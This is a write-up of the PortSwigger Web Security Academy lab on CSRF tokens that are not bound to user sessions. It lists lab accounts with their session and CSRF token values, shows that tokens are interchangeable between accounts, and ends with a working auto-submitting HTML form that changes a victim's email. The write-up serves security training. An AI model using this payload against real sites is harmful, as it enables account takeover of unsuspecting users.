 # Lab: CSRF where token is not tied to user session
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`

## Background
CSRF token should tied to user session otherwise, it'll exploited by attacker.

## Recon
1. Username: `wiener`
![](https://i.imgur.com/tMOhBba.png)
Session: `l3IjqV4KRDAmncviJTvP80KK3RAHDJLG`
CSRF Token: `u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr`

2. Username: `carlos`
![](https://i.imgur.com/I0eaArB.png)
Session: `Goc2H2lmU9Ki7Of4IcOWpE4XFNMWFslR`
CSRF Token: `UGabdiPPbGaTLsSa8vOV6MfBEvi2nGQ3`

3. What if we change session or csrf_token?
![](https://i.imgur.com/jHO6p00.png)
It seems work properly which means the user session didn't tie with unique `csrf_token`

## Exp
The csrf token should be altered to another token that was intercepted by Burp Suite which means this token haven't sent it. So, we can altered a package to forge another user to achieve CSRF.
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5200320345733f806803640046007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/zSm4Dyi.png)
:::

## Reference
[Lab: CSRF where token is not tied to user session - write up](https://www.cnblogs.com/Zeker62/p/15188614.html)